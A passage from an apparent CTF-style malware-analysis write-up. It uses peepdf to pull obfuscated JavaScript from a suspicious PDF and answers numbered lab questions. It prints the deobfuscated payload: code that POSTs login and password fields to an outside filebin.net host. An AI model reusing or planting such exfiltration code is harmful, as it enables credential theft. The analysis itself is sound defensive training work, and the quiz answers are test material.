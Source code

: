 This code looks like some obfuscated JavaScript code that uses a technique known as a packed script. In this obfuscated code, there is an `eval` function that is intended to execute the deobfuscated JavaScript code.

I thought `pdf-parser` & `pdfid` didn't pickup Javascript objects/code.

![think](https://media.giphy.com/media/hv53DaYcXWe3nRbR1A/giphy.gif)

Lets use another tool called [peepdf](https://eternal-todo.com/tools/peepdf-pdf-analysis-tool).

Executing it with `-i` flag, we get into an interactive mode & `-f`  to ignore any errors.

![image](https://user-images.githubusercontent.com/58165365/248580761-1311388a-009d-4f8e-9006-b7ea10a37e3f.png)

From the screenshot above, we now see 2 objects with JS code.

If we use the `js_code` command with the object id containing the JS, we get the Original and Next Stage code.

![image](https://user-images.githubusercontent.com/58165365/248581562-2c90a2db-abfc-4be4-9d88-c7e8152717b3.png)


```javascript
var url = "https://filebin.net/0flqlz0hiz6o4l32/D0csz1p";
var xhr = new XMLHttpRequest();
xhr.open("POST", url);
xhr.setRequestHeader("Content-Type", "application/octet-stream");
xhr.setRequestHeader("login", "");
xhr.setRequestHeader("password", "");
xhr.onreadystatechange = function() {
    if (xhr.readyState === 4) {
        console.log(xhr.status);
        console.log(xhr.responseText);
    }
};
var data = '{"login":"","password":""}';
xhr.send(data);
```

This looks like it is making a HTTP POST request to `hxxps://filebin.net/0flqlz0hiz6o4l32/D0csz1p` using the ***XMLHttpRequest*** object. It also looks like it's sending JSON data with empty login and password fields. The response status and response text are being logged to the console.

From the above we get answers to questions 4-6 

`filebin.net`

## 5. Which HTTP method would it have used to interact with this service?

`POST`

## 6. What is the name of the obfuscation used for the Javascript payload?
